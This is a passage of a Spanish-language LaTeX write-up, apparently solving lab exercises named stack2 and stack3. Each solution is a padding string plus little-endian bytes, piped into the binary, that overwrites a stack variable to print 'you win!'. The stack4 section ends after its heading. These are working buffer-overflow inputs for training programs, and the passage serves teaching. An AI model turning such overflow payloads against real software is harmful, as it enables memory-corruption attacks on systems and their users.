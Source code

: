 \documentclass[a4paper,10pt]{article}
\begin{document}
\subsubsection{Solución}

En este caso el hexadecimal que queremos que esté en la posición sp(104) es el 0x01020305, por lo tanto una posible solución es:

\begin{lstlisting}
input = "0000000000000000000000000000000000000000
0000000000000000000000000000000000000000\x05\x03\x02\x01"
echo -e $input | ./stack2.o
\end{lstlisting}
\bigskip

Lo que resultará en el output: "you win!"

\subsection{stack3}
\lstset{ language = C, numbers=left, tabsize=4, breaklines=true, frame=single }


\subsubsection{Descripción}
Al igual que en los casos anteriores, el stack será el mismo que el de la figura \textbf{(\ref{fig:stack1})}.
\subsubsection{Solución}

El hexadecimal a escribir en esta caso es 0x01020005, de manera que una posible solución será: 

\begin{lstlisting}
input = "0000000000000000000000000000000000000000
0000000000000000000000000000000000000000\x05\x00\x02\x01"
echo -e $input | ./stack3.o
\end{lstlisting}

\bigskip

Lo que resultará en el output: "you win!"

\subsection{stack4}
\lstset{ language = C, numbers=left, tabsize=4, breaklines=true, frame=single }



\subsubsection{Descripción}
\end{document}

